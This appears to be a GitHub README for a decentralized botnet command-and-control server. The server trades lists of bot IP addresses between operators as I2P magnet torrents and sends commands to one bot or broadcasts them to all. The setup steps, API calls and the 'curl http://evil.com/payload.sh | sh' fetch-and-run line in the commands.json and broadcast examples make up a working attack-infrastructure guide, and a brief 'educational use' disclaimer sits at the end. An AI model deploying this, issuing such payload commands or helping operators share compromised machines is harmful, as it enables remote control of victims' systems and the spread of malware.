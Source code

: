 

# 📘 C2 Server over I2P with Bot Sharing via Magnet Torrents

---

## 🔧 Overview

This Command-and-Control (C2) server allows operators to:

* Control bots over the public internet.
* Seamlessly share bots with **other C2 servers** through **I2P** torrents (via magnet links).
* Use `i2psnark` to fetch and seed peer `.txt` files containing IPs of bots.
* Store all bot information in `bots.txt` automatically (from all peers).
* Send commands to a specific bot or **broadcast** to all online bots.

This system requires **no registration**, has **no central authority**, and functions as a **decentralized, anonymous C2 federation** over the I2P network.

---

## 🛠️ Prerequisites

### ✅ Operating System

* Debian-based Linux (Ubuntu, Kali, Debian)
* Works on VPS, dedicated, or I2P-enabled hidden nodes

### ✅ Dependencies

* Python 3.8+
* `flask` and `requests` Python libraries
* I2P with **i2psnark** enabled

### ✅ Python Packages

Install dependencies:

```bash
sudo apt update
sudo apt install python3-pip curl -y
pip3 install flask requests
```

---

## 🌐 I2P Setup

1. **Install I2P** (Debian/Ubuntu):

   ```bash
   sudo apt install i2p
   ```

2. **Run I2P Router:**

   ```bash
   i2prouter start
   ```

3. Access I2P router console in your browser:

   ```
   http://127.0.0.1:7657
   ```

4. Go to **i2psnark**:

   ```
   http://127.0.0.1:7657/i2psnark/
   ```

---

## 📁 Project Structure

```
c2/
├── c2_server.py           # Main C2 server
├── magnet_links.txt       # Magnet links to join other C2's shared bots
├── shared_bots/           # Shared files (peer .txt files with bot IPs)
├── bots.txt               # Master list of known bots (local + shared)
└── commands.json          # Commands assigned to each bot
```

---

## 🔌 Setup & Running the Server

1. **Clone or place the files** in your server's working directory.

2. **Add magnet links** from other C2s in `magnet_links.txt`:

   ```
   magnet:?xt=urn:btih:EXAMPLEMAGNET1
   magnet:?xt=urn:btih:EXAMPLEMAGNET2
   ```

3. **Run the server:**

   ```bash
   python3 c2_server.py
   ```

---

## 📡 Features & Functionality

### 📥 `magnet_links.txt`

* This file contains a list of **I2P magnet links** to shared `.torrent` files from other C2s.
* Each torrent contains a `.txt` file with bot IPs.
* On launch, the server adds these to `i2psnark` via its local HTTP API.

---

### 📂 `shared_bots/` folder

* This is where i2psnark downloads `.txt` files from the shared torrents.
* Each file contains IP addresses of bots collected by other C2 servers.
* These are merged into `bots.txt` automatically every 60 seconds.

---

### 📜 `bots.txt`

* A master bot list (deduplicated) combining:

  * Your manually added bots
  * Peer-shared bots from `shared_bots/`

---

### 📦 `commands.json`

* Stores commands for each bot in this format:

  ```json
  {
    "bot1_public_ip": "curl http://evil.com/payload.sh | sh",
    "bot2_public_ip": "echo 'hi'"
  }
  ```

---

## 🧪 Usage Examples

### ➕ Add a command for a specific bot

```bash
curl -X POST http://localhost:8080/sendcmd \
     -H "Content-Type: application/json" \
     -d '{"botid": "154.65.100.201", "cmd": "whoami"}'
```

---

### 📢 Broadcast a command to all bots

```bash
curl -X POST http://localhost:8080/broadcast \
     -H "Content-Type: application/json" \
     -d '{"cmd": "curl http://evil.com/payload.sh | sh"}'
```

---

### 🤖 How bots fetch commands

Each bot should make requests like:

```
GET http://C2_IP:8080/getcmd/123.45.67.89
```

The server will respond with the latest command or an empty string.

---

## 📡 How I2P Sharing Works

1. Your C2 server:

   * Loads magnet links to shared `.torrent` files.
   * Downloads `.txt` files (with IPs of bots) via i2psnark.

2. Other C2s do the same:

   * They join your torrents and see your shared `shared_bots/local.txt`.

3. This builds a **mesh of shared botnets** using `.txt` files as simple syncing mediums.

---

## 🧷 How to Seed Your Own Bot List

1. Inside `shared_bots/`, create a file like `local.txt`:

   ```
   123.45.67.89
   11.22.33.44
   ```

2. Create a `.torrent` for `shared_bots/` folder using `i2psnark`.

3. Copy the generated **magnet link** from i2psnark, and give it to other C2 operators.

They can then add it to their own `magnet_links.txt` and receive your bot list.

---

## 🔐 Security & Anonymity

* Uses **I2P** to avoid public IP leakage between C2 servers.
* No central coordination — purely peer-to-peer.
* No usernames, passwords, or registration — just magnet links.
* Commands are only executed on bots reachable on the **clearnet**.

---

## ❗ Warnings (Ethical Use)

This system is designed **strictly for educational use, authorized testing, or simulations**. Misuse for illegal botnet control is a crime in most jurisdictions.

---

## 🧩 To Do / Optional Features

* Add encryption/signature verification for commands.
* Add an authentication mechanism (e.g., per bot token).
* Add reply/report channel for bots.
* Auto-generate `.torrent` files from CLI.

